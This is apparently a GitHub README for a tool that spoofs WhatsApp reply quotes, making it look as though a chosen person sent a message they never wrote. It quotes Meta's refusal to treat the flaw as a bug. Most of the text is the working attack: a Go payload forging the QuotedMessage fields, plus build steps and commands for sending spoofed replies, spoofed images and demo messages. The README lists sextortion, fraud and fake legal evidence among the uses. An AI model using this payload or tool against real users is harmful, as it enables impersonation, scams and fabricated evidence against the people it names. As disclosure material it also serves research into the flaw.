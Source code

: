 # Whatsapp Spoofing impersonate of reply message

All official WhatsApp clients, upon receiving a "Message Reply" payload (QuotedMessage), do not validate whether the "ContextInfo" of this "QuotedMessage" is valid/exists ("StanzaId" and "Participant"). This allows a malicious actor to send in private chats or groups a "QuotedMessage" of a message that never existed on behalf of another person. This is highly critical and dangerous.

## Impact

Malicious individuals can use this to create issues such as:

- Arguments between couples
- Sextortion scams
- Frauds against financial institutions
- In Brazil, someone could take a cellphone to a notary office to register a "Notarial Act" to create a record that could be used in legal proceedings, claiming that the original message was deleted but keeping the evidence of the "QuotedMessage."
- Creating embarrassing situations involving public figures (famous actors, politicians, etc.)

## What Meta/Facebook sad about this

Hi Gustavo,

Thanks for your report. This issue has been reported to us before, and we consider it to be an accepted risk. When someone replies to a message, the WhatsApp client copies the text available within the app and creates a graphical representation that helps people follow the conversation, the owner of this quoted message is always the person replying to the original message. WhatsApp uses end to end encryption and doesn’t store messages on its servers, therefore we don’t have a single source of truth for these messages. People always have the option of blocking a sender who tries to spoof messages and they can report problematic content to us. Although we appreciate the report, such issues do not qualify under our bug bounty program.

Thanks,

Teo

## App Versions

Latest version on all platforms

## The problem

Users: UserA, UserB; UserA is not known by UserB

UserA (SCAMMER) sends a spoofed messages to UserB in response to a message that UserB did never send

Spoofed message payload:

```go
msg := &waProto.Message{
    ExtendedTextMessage: &waProto.ExtendedTextMessage{
        Text: proto.String("Some text"),
        ContextInfo: &waProto.ContextInfo{
            StanzaId:     proto.String("Some Random ID"), //Random ID
            Participant: proto.String("5511999999999@s.whatsapp.net"), //Spoofed user ID
            QuotedMessage: &waProto.Message{
                Conversation: proto.String("Some Spoofed text"), //QuotedMessage Spoofed text
            },
        },
    },
}
```

Send the Spoofed Payload:

```go
resp, err := cli.SendMessage(context.Background(), chatID, msg) 
// chatID is the ID of the chat you want to send the message to, can be a group or the same number as the spoofed user ID
```

## POC

[Watch the video](https://youtu.be/_WL6hpAvNh8)

[![Watch the video](https://img.youtube.com/vi/_WL6hpAvNh8/hqdefault.jpg)](https://youtu.be/_WL6hpAvNh8)

![poc_whatsapp_spoofing-impersonate-of-reply-message.png](files/poc_whatsapp_spoofing-impersonate-of-reply-message.png)

## Exploit

#### Clone the repository.

```bash
git clone https://github.com/lichti/whats-spoofing.git
```

### Install dependencies.

```bash
cd whats-spoofing
go mod download
go get 
```

### Build

```bash
go build 
```

### Running

```bash
./whats-spoofing
```

### Usage

#### Retrieve Group Information

```txt
getgroup <jid>
```

#### List Groups

```txt
listgroups
```

#### Send Spoofed Reply

```txt
send-spoofed-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_text>|<text>
```

#### Send Spoofed Image Reply

```txt
send-spoofed-img-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_file> <spoofed_text>|<text>
```

#### Send Spoofed Demo Message

```txt
send-spoofed-demo <toGender:boy|girl> <language:br|en> <chat_jid> <spoofed_jid>
```

#### Send Spoofed Demo Message with Image

```txt
send-spoofed-demo-img <toGender:boy|girl> <language:br|en> <spoofed_jid> <spoofed_img>
```


